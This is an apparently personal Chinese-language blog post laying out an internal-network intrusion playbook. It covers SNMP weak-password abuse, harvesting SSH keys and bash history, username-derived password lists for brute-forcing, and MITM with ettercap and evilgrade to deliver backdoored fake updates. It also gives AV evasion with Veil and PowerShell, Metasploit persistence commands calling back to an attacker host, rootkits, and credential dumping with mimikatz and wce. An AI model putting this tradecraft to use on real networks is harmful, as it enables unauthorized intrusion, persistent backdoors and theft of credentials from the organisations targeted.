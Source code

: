 ```yaml
---
layout: post
title: Misc-center
tags: Misc
categories: 👓-Linux
---
```


## Misc-center

1. nmap -sP 172.19.16.1/24   发现扫描主机.

2. 查看 host 获取局域网信息.

3. 直接攻击网段路由或交换机，简单绘制内网的结构
（我在从TCL某漏洞看内网渗透教学分享之内网信息探测和后渗透准备中就是获取了cisco路由的privilege15权限，得到了内网结构，进一步进行跨vlan攻击）


4. 多尝试交换机snmp弱口令，一旦成功，内网结构清晰


	•	关于snmp渗透  
	什么是snmp  
	使用了snmp管理的设备，只需要community string即可，所以针对这个string爆破或者社工都是可行的，默认public/private  
	首先进行161端口扫描，发现snmp开放情况，通过弱口令查看设备信息，在oid中读取设备密码  
	￼
	•	  
	例子：中国移动集团华为三层交换SNMP漏洞，可获取管理帐号密码，已成功登录  
	可以通过这个nmap和msf脚本进行自动攻击h3c-pt-tools
	•	尝试从主机的用户目录或者管理运维邮箱寻找敏感信息(某次渗透即是keylogger运维后在测试机桌面获取到拓扑和网段)  
	￼
	•	
	•	通过resolv.conf找到内网dns服务器，或者字典穷举dns
	•	注意分析用户的.bash_history，一般可以分析出用户的使用习惯，纪录等,获取/.shh/，尝试配合history的连接纪录直接通过密钥登陆其他机器
0x03 内网渗透的常见攻击技巧

•	通过之前的信息收集和探测，判断出主要的业务机器，如OA，dbserver，利用ssh信任，连入机器后导出员工的userlist，做成针对性的字典，大部分内网的安全性都是脆弱的，且最容易出问题的就是口令安全（大公司也不例外）  
%username%1  
%username%12  
%username%123  
%username%1234  
%username%12345  
%username%123456

主要对ssh,dbserver,vnc,ftp进行爆破
￼
•	对开了web service的server进行常规渗透，有可以减少工作量的办法就是先对机器批量识别banner，通过banner判断出cms或中间件，直接利用exp
•	中间人攻击
常用ettercap，不建议做arp的mitm，可以尝试dhcp mitm或者icmp mitm
也可以猥琐一点，劫持插件，攻击网关，或者利用evilgrade去伪造软件更新(如notepad++)，然后捆绑上后门，直接打下工作机器，进入办公网
￼
￼
简单配置后用msf生成后门，start即可配合ettercap使用伪造软件更新了
￼
•	常见服务漏洞攻击  
smb/ms08067/ipc$/NetBIOS…………
但是在针对这些比较古老的漏洞攻击时，很可能有AV拦截，所以在不同场景遇到的坑都不一样
比如之前在西电DM牛告诉我，有AV，如果直接利用psexec返回会话，即会拦截，这时就可以利用powershell来bypass AVPowershell tricks::Bypass AV
0x04 后渗透准备和扩大战果

一次完美的内网渗透肯定不是能够一次性完成的，因为整个过程需要管理员的"配合"（口胡。。。）所以后渗透准备时很有必要的
1. 后门准备

msf的后门已经不错，只需要稍加改造就能很好满足我们的需求
普通msfpayload生成的后门不是持续性的，不利于我们下次继续工作，所以需要一个持续性后门
msf的持续性后门有两种，通过服务启动(metsvc)和通过启动项启动(persistence)
通过服务的后门有个弊端，服务名称是meterpreter，利用方式是： 上传后门，通过metsvc安装服务
1
2
3
4
5
meterpreter \> run metsvc
...(设定端口，并且上传后门文件)
use exploit/multi/handler
set PAYLOAD windows/metsvc_bind_tcp
exploit
通过启动项的利用方式：
1
2
3
4
5
meterpreter \> run persistence -X -i 10 -p port -r hostip
 
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
当然，直接生成的后门有可能会被杀，所以这里我推荐一个很不错的工具，veil，之前再一次小型apt中用这个生成了的后门直接bypass了360
linux下有两个常用的后门
mafix rookit和Cymothoa，后者听说可以克隆root用户，不过大部分的backdoor基本都相当于一个加密nc，会新开端口，所以如果webshell存活，可以直接考虑用webshell维持权限





3. hash

mimikatz，不用多说，利用meterpreter可以直接load模块
Quarks PwDump
wce
0x05 something else

内网渗透涉及的面很广，本文主要说到的是一些很简单的问题和常规的思路
尚未谈到的 域渗透 打印机 办公网嗅探 入侵日志清理等等
如果有机会，日后慢慢补全



